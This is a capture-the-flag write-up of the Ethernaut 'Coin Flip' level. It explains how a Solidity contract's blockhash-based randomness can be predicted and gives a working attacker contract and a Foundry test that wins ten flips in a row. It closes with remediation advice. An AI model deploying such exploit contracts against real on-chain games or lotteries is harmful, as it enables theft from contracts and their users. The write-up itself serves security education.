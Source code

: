 # Level 3 - Coin Flip

## Objectives

- guess the correct outcome of the game 10 times in a row

## Contract Overview

The `CoinFlip` contract is a simple game where there's only one function `flip()` where user has to supply his guess, either `true` or `false`. If user's guessed bool matches the value of the side variable, then the `consecutiveWins` will be increased. `consecutiveWins` is initially set to 0 inside the constructor and it is again set to zero if user's guess is wrong. The goal of the game is to get the most consecutive wins.

In other words the contract is supposed to work as follows:

- Users can guess the number by calling `flip()` function and passing their
  guess as an argument to the `_guess` parameter
- If user's guessed bool matches the value of the side variable, then the `consecutiveWins` will be increased

```solidity
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

- `consecutiveWins` is initially set to 0 inside the constructor and it is again set to zero if user's guess is wrong

```solidity

  constructor() {
      consecutiveWins = 0;
  }
```

- The goal of the game is to get the most consecutive wins

## Finding the weak spots

In this contract the weak spot is problem with randomness. Ethereum is a deterministic Turing machine, with no inherent randomness involved. To generate randomness in Ethereum developers often make use of data related to the blocks, i.e., block number, hash, etc. These variables may look random but are actually deterministic and can be exploited if the inputs are known. We have such problem in `CoinFlip` contract.

This weak spot can be abused by the attacker who have access to the source code of the smart contract and can reverse the game logic and calculate the winning condition in advance.

My goal is to get `consecutiveWins` up to 10. This variable is updated in `flip` function.

```solidity
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
```

Let's look into how the `side` variable is getting its value. In the first line of the `flip` function, we can see the source of randomness named `blockValue`. This is then divided by the `FACTOR` which is also available to us and the result is stored int the variable `coinFlip`. If the value of coinFlip is 1, then the side will be set to true, otherwise, false.

```solidity
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  uint256 blockValue = uint256(blockhash(block.number - 1));

  uint256 coinFlip = blockValue / FACTOR;
```

We will be able to solve this challange if our `_guess` would be equal to computation variable `side` 10 times in a row. That's why we have to deploy a custom contract simulating the exact same coin flipping logic and calling the real challenge contract with this result.

## Potential attack scenario (hypothesis)

Attacker can create a malicious contract that will contain an attack function that calculates the outcome of the game in advance. He can call this function each block and score 10 consecutive wins easily.

## Plan of the attack

1. Attacker creates the malicious contract that will contain `flip` function that calculates the outcome of the game in advance.
2. Attacker calls the `flip` function from the malicious contract.
3. Attacker will repeat the attack in 10 consecutive blocks.

## Malicious contract (CoinFlipAttack.sol)

We will be able to solve this challange if our `_guess` would be equal to computation variable `side` 10 times in a row. That's why we have to deploy a custom malicious contract simulating the exact same coin flipping logic and calling the real challenge contract with this result.

Attacker should call the `flip` function from the malicious contract. The `flip` function calculates the outcome of the game -> boolean value
`side`. The `flip` function from the malicious contract calls the `flip()` function inside the `CoinFlip` contract. It passes the calculated `side` value as an argument to the `_guess` parameter of the `flip()` function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipAttack {
    CoinFlip victimContract;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _victimContractAddress) public {
        victimContract = CoinFlip(_victimContractAddress);
    }

    function flip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        victimContract.flip(side);
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/03-CoinFlip.t.sol))

```solidity
 // Malicious contract that contains `flip` function that calculates the outcome of the game in advance
        CoinFlipAttack coinFlipAttack = new CoinFlipAttack(levelAddress);

        emit log_named_uint(
            "Attacker's score before the attack: ",
            coinFlipContract.consecutiveWins()
        );
        emit log_string(
            "Attacker runs the exploit for 10 consecutive blocks..."
        );

        // Attack will be repeated in 10 consecutive blocks
        for (uint256 i = 1; i <= 10; i++) {
            vm.roll(i); // cheatcode to simulate running the attack on each subsequent block; we are using vm.roll() to create the next block
            // Calling the `flip` function from the malicious contract
            coinFlipAttack.flip();
            emit log_named_uint(
                "Consecutive wins: ",
                coinFlipContract.consecutiveWins()
            );
        }

        // Test assertion
        assertEq(coinFlipContract.consecutiveWins(), 10);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/CoinFlip.png)

## Recommendations

- `CoinFlip` contract can be easily exploited by abusing the Weak PRNG. This can
  be used both by the miners and the potential malicious users.
  - The use of Chainlink VRF or RANDAO is recommended for generating randomness.
- The `flip()` function does not check if the caller is a contract. Such a check
  would prevent attacks like the one presented in the Proof of Concept. An
  example of such validation would be wrapping the logic of the `flip()`
  function in the `if / else` statement like the one shown below:

```solidity
function flip(bool _guess) public returns (bool) {
	if (msg.sender == tx.origin) {
		/*
		* LOGIC HERE
		*/
	}
	else {
		revert("Caller cannot be a contract!");
	}
}
```

- This however would not solve the problem completely. The attacker could still
  calculate the outcome of the game externally and call the `flip()` function
  manually or automate the whole process via a `bash` script.

```

## Additional information

You can also read my other solution (using Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/3.-coin-flip-problem-of-randomness

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
```
